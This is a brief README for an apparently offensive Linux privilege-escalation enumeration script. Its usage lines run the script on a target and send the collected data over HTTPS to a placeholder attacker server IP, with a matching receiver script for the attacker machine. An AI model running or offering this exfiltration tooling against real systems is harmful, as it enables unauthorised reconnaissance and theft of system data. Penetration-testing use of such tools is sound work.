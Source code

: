 # gx-privesc.sh
Privesc enumeration tool

This tool runs the initial enumeration commands on the target and send the data back to your machine over HTTPS (443/tcp). You will find the output under https directory in your working directory (The file is only readable by root)

Please don't forget to give execute permission to the scripts.

## Usage

### Enum script (run locally on the target)
```
./gx-lx-enum.sh YOUR_SERVER_IP 
```
### Command to receive the file from the Enum script (on the attacker machine)
```
./gx-lx-enum_server.sh
```
